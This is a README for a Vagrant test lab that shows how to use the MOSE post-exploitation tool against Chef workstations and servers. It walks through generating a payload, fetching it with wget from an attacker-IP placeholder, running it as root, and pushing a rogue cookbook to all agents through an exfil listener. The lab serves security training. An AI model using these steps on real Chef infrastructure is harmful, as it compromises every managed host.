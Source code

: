 # chef-test-lab
Create test lab which can be used to play around with MOSE and Chef.

**Warning, take heed: This lab should be run in a controlled environment, as it contains vulnerable assets.**

## Dependencies
You must download and install the following for this environment to work:
* [Vagrant](https://www.vagrantup.com/downloads.html)

## Vagrant Lab Build Instructions
To create an environment with a Chef Workstation and a Chef Server that controls multiple agents, run the following command:
```
cd vagrant && make build && make run
```
To run MOSE against the chef workstation:

1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef`
3. Login to the chef workstation: `vagrant ssh chef_workstation` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Run the payload: `chmod +x chef-linux; ./chef-linux`
7. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	7a. Escalate to root with ```sudo su``` <br>
	7b. Run ```chef-client```
8. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To run MOSE against the chef server:
1. Build MOSE using `make build` in the MOSE repo
2. Generate a payload with MOSE: `./mose -c "touch /tmp/BLA && echo test >> /tmp/BLA" -t chef -l <your local ip address> -ep 9090 -rhost chef-server:10.42.42.10` <br>
	2a. The exfil listener time can be set with the `-ep` parameter <br>
	2b. The `-rhost` parameter is a necessity if running against a chef-server.  
3. Login to the chef server: `vagrant ssh chef_server` (the password is vagrant)
4. Escalate to root with `sudo su`
5. Download the binary from MOSE: `wget http://YOURIPADDRESSGOESHERE:8090/chef-linux`
6. Back on the attacker's system, specify `n` for the target being a workstation and `Y` when prompted for the target being a server
7. Run the payload: `chmod +x chef-linux; ./chef-linux`
8. Use the container that is spawned on the attacking machine as if it were a workstation to get the rogue cookbook into place
9. Wait for 30 minutes or ssh into one of the agents and kick off the payload manually: `vagrant ssh chef_agent_1` (the password is vagrant) <br>
	9a. Escalate to root with ```sudo su``` <br>
	9b. Run ```chef-client```
10. For this example, you should note that a file has been created in `/tmp` in all of the chef-agent virtual machines, as we specified in step 2.

To tear down the test environment, run the following command:
```
make destroy
```
